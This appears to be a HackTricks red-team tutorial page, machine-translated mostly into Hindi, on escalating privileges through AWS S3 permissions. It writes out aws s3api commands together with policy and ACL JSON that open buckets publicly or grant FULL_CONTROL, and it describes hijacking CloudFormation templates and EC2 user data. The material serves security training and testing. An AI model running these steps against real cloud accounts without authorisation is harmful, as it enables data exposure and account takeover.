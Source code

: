 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

एक हमलावर जिसके पास इन दिलचस्प बकेट्स पर ये अनुमतियाँ हैं, संसाधनों को हाईजैक करने और विशेषाधिकार बढ़ाने में सक्षम हो सकता है।

उदाहरण के लिए, एक हमलावर जिसके पास "cf-templates-nohnwfax6a6i-us-east-1" नामक एक क्लाउडफॉर्मेशन बकेट पर ये **अनुमतियाँ** हैं, वह डिप्लॉयमेंट को हाईजैक करने में सक्षम होगा। एक्सेस निम्नलिखित नीति के साथ दिया जा सकता है:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
And the hijack is possible because there is a **छोटी समय खिड़की टेम्पलेट अपलोड होने के क्षण से** बकेट में टेम्पलेट **तैनात होने के क्षण तक**। एक हमलावर बस अपने खाते में एक **लैम्ब्डा फ़ंक्शन** बना सकता है जो **तब ट्रिगर होगा जब बकेट सूचना भेजी जाएगी**, और **हाइजैक** कर लेगा **उस बकेट** का **सामग्री**।

![](<../../../.gitbook/assets/image (174).png>)

The Pacu module [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) can be used to automate this attack.\
For mor informatino check the original research: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

These are the permissions to **S3 में ऑब्जेक्ट प्राप्त करने और अपलोड करने के लिए**। AWS के अंदर (और बाहर) कई सेवाएँ **कॉन्फ़िग फ़ाइलों** को स्टोर करने के लिए S3 स्टोरेज का उपयोग करती हैं।\
एक हमलावर जिसके पास **पढ़ने की पहुँच** है, वह उन पर **संवेदनशील जानकारी** पा सकता है।\
एक हमलावर जिसके पास **लिखने की पहुँच** है, वह **डेटा को संशोधित कर सकता है ताकि किसी सेवा का दुरुपयोग किया जा सके और विशेषाधिकार बढ़ाने की कोशिश की जा सके**।\
ये कुछ उदाहरण हैं:

* यदि एक EC2 उदाहरण **उपयोगकर्ता डेटा को S3 बकेट में स्टोर कर रहा है**, तो एक हमलावर इसे **EC2 उदाहरण के अंदर मनमाना कोड निष्पादित करने के लिए संशोधित कर सकता है**।

### `s3:PutBucketPolicy`

एक हमलावर, जिसे **उसी खाते से होना चाहिए**, यदि नहीं तो त्रुटि `The specified method is not allowed will trigger`, इस अनुमति के साथ बकेट(s) पर अधिक अनुमति देने में सक्षम होगा जिससे वह पढ़, लिख, संशोधित, हटाने और बकेट को उजागर कर सके।
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके **उसे विशेष बाल्टियों पर अधिक पहुंच देने** के लिए कर सकता है।\
ध्यान दें कि हमलावर को उसी खाते से होने की आवश्यकता नहीं है। इसके अलावा, लिखने की पहुंच
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

एक हमलावर इन अनुमतियों का दुरुपयोग करके बकेट के भीतर विशिष्ट वस्तुओं पर अधिक पहुंच प्राप्त कर सकता है।
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

इन विशेषाधिकारों के साथ एक हमलावर को एक विशिष्ट ऑब्जेक्ट संस्करण पर Acl लगाने में सक्षम होने की उम्मीद है।
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
